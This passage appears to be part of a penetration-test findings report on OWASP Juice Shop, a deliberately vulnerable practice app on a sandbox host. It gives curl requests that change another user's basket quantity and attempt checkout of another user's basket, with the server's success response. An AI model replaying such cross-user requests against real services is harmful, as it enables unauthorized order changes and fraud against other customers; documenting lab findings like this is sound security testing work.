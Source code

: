 **Exploitation Steps:**

1. Access another user's basket item (Item ID 1):
```bash
curl -s -i "http://juice-shop.sandbox.local:3001/api/BasketItems/1" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]"
```

2. View original quantity (2 items)
3. Modify the quantity:
```bash
curl -s -i -X PUT "http://juice-shop.sandbox.local:3001/api/BasketItems/1" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"quantity": 5}'
```

4. Receive confirmation of modification:
```json
{
  "status": "success",
  "data": {
    "ProductId": 1,
    "BasketId": 1,
    "id": 1,
    "quantity": 5,
    "updatedAt": "2025-09-22T19:17:21.994Z"
  }
}
```

**Proof of Impact:**
- **Cross-user modification** - changed another user's basket item quantity from 2 to 5
- **Financial impact** - increased other user's total by 3x additional items
- **Timestamp confirmation** - updatedAt field confirms successful modification
- **Shopping disruption** - unauthorized changes to user's intended purchases

### AUTHZ-VULN-08: Cross-User Basket Checkout

**Summary:**
- **Vulnerable location:** POST /rest/basket/:id/checkout endpoint
- **Overview:** Users can checkout and complete orders for other users' baskets
- **Impact:** Unauthorized order completion and potential financial fraud
- **Severity:** High

**Prerequisites:**
Valid authentication token (any role)

**Exploitation Steps:**

1. Identify target basket (Basket ID 2 belonging to User ID 2)
2. Attempt checkout of another user's basket:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/rest/basket/2/checkout" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{}'
```
